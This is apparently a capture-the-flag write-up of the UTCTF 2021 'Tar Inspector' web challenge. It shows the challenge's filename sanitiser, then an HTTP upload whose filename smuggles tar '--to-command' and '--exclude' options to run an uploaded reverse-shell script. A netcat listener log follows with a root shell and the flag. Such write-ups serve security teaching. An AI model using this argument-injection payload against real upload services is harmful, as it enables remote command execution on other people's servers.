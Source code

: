 ## (Web) Tar Inspector [994 pts]

> Tar Inspector challenge is get the shell using RCE and read the flag

Many people asked for a hint and the contest provided the code for the secure_filename() function. So first, I'll see `secure_filename()`.

```python
# creates a secured version of the filename
def secure_filename(filename):
    # strip extension and any sneaky path traversal stuff
    filename = filename[:-4]
    filename = os.path.basename(filename)
    # escape shell metacharacters
    filename = re.sub("(!|\$|#|&|\"|\'|\(|\)|\||<|>|`|\\\|;)", r"\\\1", filename)
    filename = re.sub("\n", "", filename)
    # add extension
    filename += '__'+hex(randrange(10000000))[2:]+'.tar'
    return filename
```
You can see that the secure_filename() function gets the file name excluding the extension, escapes all special characters, and creates a new file name by including a random value between the file names.

![](https://github.com/wjddnjs33/image/blob/main/UTCTF%202021/1.png?raw=true)

Go into the challenge and you can will see the file upload function.

![](https://github.com/wjddnjs33/image/blob/main/UTCTF%202021/2.png?raw=true)

If you upload any file, you can see that only the `.tar` extension can be uploaded. Probably I need to make RCE happen when i unpack the tar file. When unpack the tar file, I can execute file `using --to-command` option :)

- Scenario

1. I compress the reverse shell code to tar file and I upload in server.
2. If you upload the tar file, you can see the newly created file name.
3. If you upload the created file again by name, it will be unpack and the file will be executed. Obviously, you need to add the `--to-command` option at this time.
4. And since the last in the file must be `.tar`, you can bypass it using the `--exclude` option.

![](https://github.com/wjddnjs33/image/blob/main/UTCTF%202021/3.png?raw=true)

After uploading the tar file, you can see a file named `pocas__bf9d0.tar` was created :) Now, When you unpack the `pocas__bf9d0.tar` file, you can execute the reverse shell file.

```
POST /upload HTTP/1.1
Host: web2.utctf.live:8123
Content-Length: 1566
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytCvRhaPJjhVCXGrN
Connection: close

------WebKitFormBoundarytCvRhaPJjhVCXGrN
Content-Disposition: form-data; name="file"; filename="pocas__bf9d0.tar --to-command=python3${IFS}pocas.py --exclude=pocas.tar"
Content-Type: application/x-tar


------WebKitFormBoundarytCvRhaPJjhVCXGrN--

```
I used the `--to-command`/`--exclude` option as above.

```
root@py:~# nc -lp 80
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/tmp/extracts
# cat /flag.txt
utflag{bl1nd_c0mmand_1nj3ct10n?_n1c3_w0rk}
#
```
You can see that it is unpacked, and the file is executed to get the shell :)

```
utflag{bl1nd_c0mmand_1nj3ct10n?_n1c3_w0rk}
```
